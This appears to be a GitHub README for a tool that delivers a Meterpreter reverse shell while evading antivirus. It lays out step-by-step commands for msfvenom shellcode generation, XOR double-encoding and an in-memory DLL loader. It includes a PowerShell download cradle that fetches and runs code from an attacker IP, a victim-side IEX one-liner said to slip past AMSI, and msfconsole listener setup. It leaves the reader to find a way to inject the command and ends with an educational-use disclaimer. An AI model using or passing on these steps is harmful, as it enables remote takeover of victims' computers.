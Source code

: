 # RS_meterpreter_bypass
Get a Meterpreter reverse_tcp shell bypassing AV.
These two C# programs are used to encode and create a .dll file from a starting metasploit xor encoded reverse_tcp payload.
        
- Generate your payload **#1**
- XOR encode your shell script  **#2**
- Create a DLL to inject into memory **#3**
- Create a Powershell script to download and execute the DLL in memory **#4**

# How to use
**#1** Fisrt of all: generate shellcode in C# format, and use msfvenom's built-in encoder xor_dynamic

        msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f csharp -e x64/xor_dynamic

Take note of the *buf* variable showed in output.

**#2** Now we use our [_XOR_encoder_](https://github.com/marcoigorr/RS_meterpreter_bypass/blob/6e7cf2a56639a471bc8a45d42c06cf47eb2ff10d/XOR_encoder.cs), open this in a new console project on Visual Studio Community and build an executable solution.

- Remember to change the byte array *buf* with your version

Execute the exe with:
        
        .\XOR_encoder.exe

Take note of the output, it is your new double-encoded payload.

We have now a double XOR-encoded shellcode.

**#3** To actually bypass AV we will need a .dll to run in memory, not in disk. 

We will use [_Class1_](https://github.com/marcoigorr/RS_meterpreter_bypass/blob/6e7cf2a56639a471bc8a45d42c06cf47eb2ff10d/Class1.cs) which is used to execute our payload and also bypass heuristics control. So, after you have changed also here the *buf* with your new double-encoded payload, build the solution.

The output will be ClassLibrary1.dll, the payload.

Now we have the .dll, we can host it in a remote server or ourselves with the command below after we have inserted the .dll in /var/www/html/

        service apache start

**#4** Now we just need to execute the .dll in memory, so we do a .ps1 script to do that, we can name it *download_cradle.ps1* also also this needs to be placed in /var/www/html:

        $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.1.102/ClassLibrary1.dll')
        $assem = [System.Reflection.Assembly]::Load($data)
        $class = $assem.GetType("ClassLibrary1.Class1")
        $method = $class.GetMethod("Runner")
        $method.Invoke(0, $null)

This PowerShell script will download the DLL, load it directly into memory, and invoke Runner function of [_Class1_](https://github.com/marcoigorr/RS_meterpreter_bypass/blob/6e7cf2a56639a471bc8a45d42c06cf47eb2ff10d/Class1.cs).

## Victim machine

On victim's machine we will just neet do run this command, It donwloades the script hosted in a remote server and allocate into memory (AMSI just ignores it):

        (New-Object system.net.webclient).downloadstring('http://192.168.1.102/download_cradle.ps1') | IEX
        
## Attacker machine

We will need to start up the listener with *msfconsole* to catch anything that come through:

        > msfconsole
        > use exploit/multi/handler
        > set payload windows/x64/meterpreter/reverse_tcp
        > set LHOST 192.168.1.102
        > set LPORT 4444
        > exploit

Or we can use this shortcut:

        msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost 192.168.1.102; set lport 4444; set ExitOnSession false; exploit -j"

Now we just wait for the victim to issue the command:
        
        (New-Object system.net.webclient).downloadstring('http://192.168.1.102/download_cradle.ps1') | IEX

Your job to find a way for injecting this command :)

# Credits
- purpl3f0x

# Disclaimer
All the techniques provided here are solely meant for educational purposes only. All of the techniques taught here are only meant to be used in a closed laboratory environment or in consent with a second party.
